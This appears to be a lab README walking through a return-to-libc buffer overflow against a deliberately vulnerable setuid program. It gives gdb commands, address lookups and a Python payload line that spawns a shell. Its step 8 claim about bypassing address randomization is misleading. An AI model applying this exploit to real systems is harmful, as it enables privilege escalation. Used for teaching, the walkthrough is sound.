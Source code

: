 # Return-To-LibC-Attack
The Return-To-Libc attack, commonly known as RTL is an attack that is profoundly known for exploiting weaknesses of a Buffer Overflow condition on a system with a non-executable stack. In this type of attack, the attack uses a tactic similar to the typical buffer overflow attack, where the return address is used to redirect the program to a different source [1]. 
But unlike a normal Buffer Overflow attack, RTL uses function provided by inbuilt library i.e. the system() call. The attacker can then overwrite the return address space and assign address of the shell code i.e. ‘/bin/sh’ address in our case. This will allow the attacker to gain access to the command shell and allow him/her to extract information from the system [3].

Now, steps used to perform the attack [1][2][3]:

1. Turn off address randomization
**Command:**
-	$ sudo sysctl -w kernel.randomize_va_space=0
enter password: dees
 kernel.randomize_va_space = 0

2. Set Environment Variables for /bin/sh address
**Command:**
$ export MYSHELL="/bin/sh"

3. Executing the vul.c file to understand the registers and their current addresses
**Command:**
-	$  gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ chmod 4755 vul
-	$ gdb ./vul

 
4. Overflowing the Buffer with all ‘A’ to check ending limit of Return Address(EIP)
**Command:** 
-	$ (python -c 'print "A"*27')> badfile
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
 
5. Extract 'system' & 'exit' addresses by compiling and running the vul.c file once
**Command:**
-	(gdb) r
-	(gdb) p system
 $1 = {<text variable, no debug info>} 0xb7e5f430 <system>
-	(gdb) p exit
 $2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>

6. Extract the address for '/bin/sh' using exp.c file
**Command:**
- $ gcc -g -fno-stack-protector -m32 exp.c -o exp 
- $ gdb ./exp
- (gdb) r

--> Starting program: /home/seed/exp 
  - bffffe8f
  - [Inferior 1 (process 4738) exited normally]

 

7. Now perform the attack by using a python script and concatenation addresses for 'system', 'exit'& '/bin/sh'
**Command:**
-	$ (python -c'print "A"*23 +"\x30\xf4\xe5\xb7"+"\xb0\x2f\xe5\xb7"+"\x8f\xfe\xff\xbf"')>badfile
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
-	(gdb) r

--> Starting program: /home/seed/vul 
Read from file: AAAAAAAAAAAAAAAAAAAAAAA0�巰/巏���
$

 

 

8. Now, in order to execute the attack even when the kernel is generating random addresses, use following commands along with commands from steps 1-7
**Commands:**
-	$ sudo sysctl -w kernel.randomize_va_space=2
enter password: dees
--> kernel.randomize_va_space = 2
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
-	(gdb) set disable-randomization off
-	(gdb) r

Here, we use set disable-randomization off command to bypass the kernel address randomization inside the gdb debugger.

